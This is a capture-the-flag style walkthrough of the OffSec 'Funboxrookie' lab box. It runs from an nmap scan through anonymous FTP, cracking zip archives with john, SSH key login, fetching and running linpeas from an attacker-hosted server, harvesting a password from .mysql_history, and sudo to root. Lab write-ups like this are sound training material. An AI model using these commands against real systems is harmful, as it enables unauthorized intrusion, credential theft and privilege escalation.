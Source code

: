 
# OffSec labs - Funboxrookie

Initial nmap scan showed a few open and interesting ports: 
```shell
nmap -sV -sC -n -O -T4 -p- -Oa scan 192.168.89.107/24

```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%)
```

We see nmap identified port 21 on FTP as anonymous login enabled, it also gives us a list of files on the server.
lets login 
```shell
ftp anonymous@192.168.89.107
```
lets see if we can upload something 
```shell
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||41295|)
550 test.txt: Operation not permitted
```
Nope, no luck, lets download the file on here and snoop around in them

```shell
                                                                               
┌──(kali㉿kali)-[~/Documents/funboxrookie/ftp]
└─$ unzip anna.zip    
Archive:  anna.zip
[anna.zip] id_rsa password:
```
We need a password to unzip them! 
Lets move on to the webserver and see what we can do on port 80
Looks like an apache page, lets try to find some directories

```shell
gobuster dir -u http://192.168.89.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
No luck on finding directories, lets try to crack one of the zip files passwords with john 

```shell
zip2john cathrine.zip > cat.john
```
Now lets try to crack it! 
```shell
john cat.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press `q` or Ctrl-C to abort, almost any other key for status
catwoman         (cathrine.zip/id_rsa)     
1g 0:00:00:00 DONE (2022-11-14 19:29) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
we got a password!

lets unzip the file

```shell
unzip cathrine.zip 
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: id_rsa
```
Looks like an rsa key was in the zip file, hopefully we can use it to ssh into the server, lets try.

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
It didn't work! We forgot to change the file permissions...

```shell
sudo chmod 600 id_rsa
```
Lets try again

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
still not working....
i'm gonna crack another zip and try that rsa key. 

After cracking, unzipping, and changing perms for tom.zip we can finally connect.

```shell
ssh tom@192.168.89.107 -i id_rsa     
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 15 00:50:35 UTC 2022

  System load:  0.0               Processes:             164
  Usage of /:   74.7% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.89.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
ls
cat local.txt 
```

got the user flag! 

now lets try to privesc, running linpeas.sh

on my box:
```shell
python3 -m `http.server`
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
in ssh session:
```shell
wget http://192.168.49.89:8000/peas.sh
```
```shell
bash peas.sh
```
linpeas didn`t turn up anything usefull, lets check out history files

trying to cd anywhere gives an error, lets upgrade toa full tty python

```shell
python3 -c `import os; os.system("/bin/bash");`
```
Now lets check some history files, bash first
```shell
cat .bash_history
```
blank! 

this sql one looks interesting 

```shell
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040`support`;
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit

```
Looks like a possible password in the last query? lets try it 

```shell
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL

```
ALL COMMANDS! 
```shell
sudo su
root@funbox2:/home/tom# whoami
root
```
WE GOT ROOT

```shell
cd /root/
cat proof.txt
```


Overall easy box covering: anonymous FPT login, password cracking, and lack of history cleaning.  



